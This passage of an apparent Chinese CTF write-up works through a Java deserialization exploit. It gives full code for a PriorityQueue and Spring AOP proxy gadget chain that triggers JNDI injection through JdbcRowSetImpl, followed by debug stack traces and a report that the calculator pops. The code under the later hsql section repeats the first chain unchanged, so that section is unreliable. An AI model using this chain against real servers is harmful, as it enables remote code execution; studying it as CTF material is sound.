        AspectJAroundAdvice advice = new AspectJAroundAdvice(method,new AspectJExpressionPointcut(),factory);
        Proxy proxy1 = (Proxy) getAProxy(advice,Advice.class);
        Proxy finalproxy=(Proxy) getBProxy(proxy1,new Class[]{Comparator.class});
        PriorityQueue PQ=new PriorityQueue(1);
        PQ.add(1);
        PQ.add(2);
        Reflections.setFieldValue(PQ,"comparator",finalproxy);
        Reflections.setFieldValue(PQ,"queue",new Object[]{proxy1,proxy1});
        ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(Util.serialize(PQ));
        MyObjectInputStream objectInputStream = new MyObjectInputStream(byteArrayInputStream);
        Object object = objectInputStream.readObject();

    }
    public static String serializeToBase64(Object obj) throws IOException {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(obj);
        oos.close();
        return Base64.getEncoder().encodeToString(baos.toByteArray());
    }
    public static Object getBProxy(Object obj,Class[] clazzs) throws Exception
    {
        AdvisedSupport advisedSupport = new AdvisedSupport();
        advisedSupport.setTarget(obj);
        Constructor constructor = Class.forName("org.springframework.aop.framework.JdkDynamicAopProxy").getConstructor(AdvisedSupport.class);
        constructor.setAccessible(true);
        InvocationHandler handler = (InvocationHandler) constructor.newInstance(advisedSupport);
        Object proxy = Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(), clazzs, handler);
        return proxy;
    }
    public static Object getAProxy(Object obj,Class<?> clazz) throws Exception
    {
        AdvisedSupport advisedSupport = new AdvisedSupport();
        AbstractAspectJAdvice advice = (AbstractAspectJAdvice) obj;
        DefaultIntroductionAdvisor advisor = new DefaultIntroductionAdvisor((Advice) getBProxy(advice, new Class[]{MethodInterceptor.class}));
        advisedSupport.addAdvisor(advisor);
        Constructor constructor = Class.forName("org.springframework.aop.framework.JdkDynamicAopProxy").getConstructor(AdvisedSupport.class);
        constructor.setAccessible(true);
        InvocationHandler handler = (InvocationHandler) constructor.newInstance(advisedSupport);
        Object proxy = Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(), new Class[]{clazz}, handler);
        return proxy;
    }
}
```

运行成功弹出计算器



JNDI 服务也接收到了请求  


### 调试分析

首先是我们的 cb 部分

readObject:795, PriorityQueue (java.util)

```
private void readObject(java.io.ObjectInputStream s)
    throws java.io.IOException, ClassNotFoundException {
    // Read in size, and any hidden stuff
    s.defaultReadObject();

    // Read in (and discard) array length
    s.readInt();

    queue = new Object[size];

    // Read in all elements.
    for (int i = 0; i < size; i++)
        queue[i] = s.readObject();

    // Elements are guaranteed to be in "proper order", but the
    // spec has never explained what that might be.
    heapify();
}
```

跟进 heapify

```
private void heapify() {
    for (int i = (size >>> 1) - 1; i >= 0; i--)
        siftDown(i, (E) queue[i]);
}
```

跟进 siftDown

```
private void siftDown(int k, E x) {
    if (comparator != null)
        siftDownUsingComparator(k, x);
    else
        siftDownComparable(k, x);
}
```

跟进 siftDownUsingComparator

```
private void siftDownUsingComparator(int k, E x) {
    int half = size >>> 1;
    while (k < half) {
        int child = (k << 1) + 1;
        Object c = queue[child];
        int right = child + 1;
        if (right < size &&
            comparator.compare((E) c, (E) queue[right]) > 0)
            c = queue[child = right];
        if (comparator.compare(x, (E) c) <= 0)
            break;
        queue[k] = c;
        k = child;
    }
    queue[k] = x;
}
```

因为我们传入的 comparator 为代理类



调用代理类的方法的时候会调用invoke 方法

```
invoke:199, JdkDynamicAopProxy (org.springframework.aop.framework)
compare:-1, $Proxy4 (com.sun.proxy)
siftDownUsingComparator:721, PriorityQueue (java.util)
siftDown:687, PriorityQueue (java.util)
heapify:736, PriorityQueue (java.util)
readObject:795, PriorityQueue (java.util)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:497, Method (java.lang.reflect)
invokeReadObject:1058, ObjectStreamClass (java.io)
readSerialData:1900, ObjectInputStream (java.io)
readOrdinaryObject:1801, ObjectInputStream (java.io)
readObject0:1351, ObjectInputStream (java.io)
readObject:371, ObjectInputStream (java.io)
main:41, Test
```

之后就是和 AOP 一样的效果了



成功来到 JNDI 的部分

触发了 JNDI 注入

## hsql 二次反序列化

因为题目给了依赖，还可以尝试打 hsql 二次反序列化

这个如果直接使用工具就非常方便了

利用链如下



首先打的是一个 DruidJdbcAttack，这个可以触发我们的 jdbc 攻击，而题目依赖又正好给了 hsqldb:org.hsqldb.jdbcDriver

这里可以打一个组合拳，因为 hsql 可以利用的 sink 还是很多的，可以打一个二次反序列化

在二次反序列化的时候我们就不需要考虑黑名单了，直接打一个 jackson 的原生链

生成我们的数据后直接开始攻击

POC

```

import com.example.ezjav.utils.MyObjectInputStream;
import com.sun.rowset.JdbcRowSetImpl;
import org.aopalliance.aop.Advice;
import org.aopalliance.intercept.MethodInterceptor;
import org.springframework.aop.aspectj.AbstractAspectJAdvice;
import org.springframework.aop.aspectj.AspectJAroundAdvice;
import org.springframework.aop.aspectj.AspectJExpressionPointcut;
import org.springframework.aop.aspectj.SingletonAspectInstanceFactory;
import org.springframework.aop.framework.AdvisedSupport;
import org.springframework.aop.support.DefaultIntroductionAdvisor;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.io.ObjectOutputStream;
import java.lang.reflect.*;
import java.lang.reflect.Proxy;
import java.util.Base64;
import java.util.Comparator;
import java.util.PriorityQueue;


public class Test {
    public static void main(String[] args) throws Exception {
        JdbcRowSetImpl jdbcRowSet = new JdbcRowSetImpl();
        jdbcRowSet.setDataSourceName("ldap://127.0.0.1:50389/094ffc");
        Method method=jdbcRowSet.getClass().getMethod("getDatabaseMetaData");
        System.out.println(method);
        SingletonAspectInstanceFactory factory = new SingletonAspectInstanceFactory(jdbcRowSet);
        AspectJAroundAdvice advice = new AspectJAroundAdvice(method,new AspectJExpressionPointcut(),factory);
        Proxy proxy1 = (Proxy) getAProxy(advice,Advice.class);
        Proxy finalproxy=(Proxy) getBProxy(proxy1,new Class[]{Comparator.class});
        PriorityQueue PQ=new PriorityQueue(1);
        PQ.add(1);
        PQ.add(2);
        Reflections.setFieldValue(PQ,"comparator",finalproxy);
        Reflections.setFieldValue(PQ,"queue",new Object[]{proxy1,proxy1});
        ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(Util.serialize(PQ));
        MyObjectInputStream objectInputStream = new MyObjectInputStream(byteArrayInputStream);
        Object object = objectInputStream.readObject();

    }
    public static String serializeToBase64(Object obj) throws IOException {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(obj);
        oos.close();
        return Base64.getEncoder().encodeToString(baos.toByteArray());
    }
    public static Object getBProxy(Object obj,Class[] clazzs) throws Exception
    {
        AdvisedSupport advisedSupport = new AdvisedSupport();
        advisedSupport.setTarget(obj);
        Constructor constructor = Class.forName("org.springframework.aop.framework.JdkDynamicAopProxy").getConstructor(AdvisedSupport.class);
        constructor.setAccessible(true);
        InvocationHandler handler = (InvocationHandler) constructor.newInstance(advisedSupport);
        Object proxy = Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(), clazzs, handler);
        return proxy;
    }
    public static Object getAProxy(Object obj,Class<?> clazz) throws Exception
    {
        AdvisedSupport advisedSupport = new AdvisedSupport();
        AbstractAspectJAdvice advice = (AbstractAspectJAdvice) obj;
        DefaultIntroductionAdvisor advisor = new DefaultIntroductionAdvisor((Advice) getBProxy(advice, new Class[]{MethodInterceptor.class}));
        advisedSupport.addAdvisor(advisor);
        Constructor constructor = Class.forName("org.springframework.aop.framework.JdkDynamicAopProxy").getConstructor(AdvisedSupport.class);
        constructor.setAccessible(true);
        InvocationHandler handler = (InvocationHandler) constructor.newInstance(advisedSupport);
        Object proxy = Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(), new Class[]{clazz}, handler);
        return proxy;
    }
}
```





收到请求成功弹出计算器
